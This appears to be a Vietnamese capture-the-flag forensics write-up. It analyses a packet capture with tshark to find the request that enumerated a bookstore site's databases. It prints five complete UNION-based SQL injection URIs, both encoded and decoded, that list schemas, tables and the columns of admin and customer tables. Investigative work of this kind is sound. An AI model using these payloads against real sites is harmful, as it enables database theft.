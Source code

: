 ## Mô tả

Can you provide the complete request URI that was used to read the web server's available databases?

## Phân tích

Có rất nhiều request, muốn tìm được cái request mà đọc toàn bộ database của server thì có thể tham khảo đến một vài keyword như là `INFORMATION_SCHEMA` cái này sẽ cho ta thông tin về tất cả các tables, views, columns, procedures trong database

Để tìm được thì trước hết ta phải xuất các URI ra để decode rồi check

```bash
$ tshark -r WebInvestigation.pcap -Y 'ip.src == 111.224.250.131 && http.request.uri contains "search.php"' -T fields -e http.request.full_uri | grep INFORMATION_SCHEMA
http://bookworldstore.com/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-
http://bookworldstore.com/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Ctable_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%20IN%20%280x626f6f6b776f726c645f6462%29--%20-
http://bookworldstore.com/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Ccolumn_name%2Ccolumn_type%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20table_name%3D0x61646d696e%20AND%20table_schema%3D0x626f6f6b776f726c645f6462--%20-
http://bookworldstore.com/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Ccolumn_name%2Ccolumn_type%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20table_name%3D0x637573746f6d657273%20AND%20table_schema%3D0x626f6f6b776f726c645f6462--%20-
http://bookworldstore.com/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Ccolumn_name%2Ccolumn_type%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20table_name%3D0x626f6f6b73%20AND%20table_schema%3D0x626f6f6b776f726c645f6462--%20-
```

[Decode](https://www.urldecoder.org/) ta được

```sql
http://bookworldstore.com/search.php?search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,schema_name)),0x7176706a71) FROM INFORMATION_SCHEMA.SCHEMATA-- -
http://bookworldstore.com/search.php?search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,table_name)),0x7176706a71) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x626f6f6b776f726c645f6462)-- -
http://bookworldstore.com/search.php?search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,column_name,column_type)),0x7176706a71) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x61646d696e AND table_schema=0x626f6f6b776f726c645f6462-- -
http://bookworldstore.com/search.php?search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,column_name,column_type)),0x7176706a71) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x637573746f6d657273 AND table_schema=0x626f6f6b776f726c645f6462-- -
http://bookworldstore.com/search.php?search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,column_name,column_type)),0x7176706a71) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x626f6f6b73 AND table_schema=0x626f6f6b776f726c645f6462-- -
```
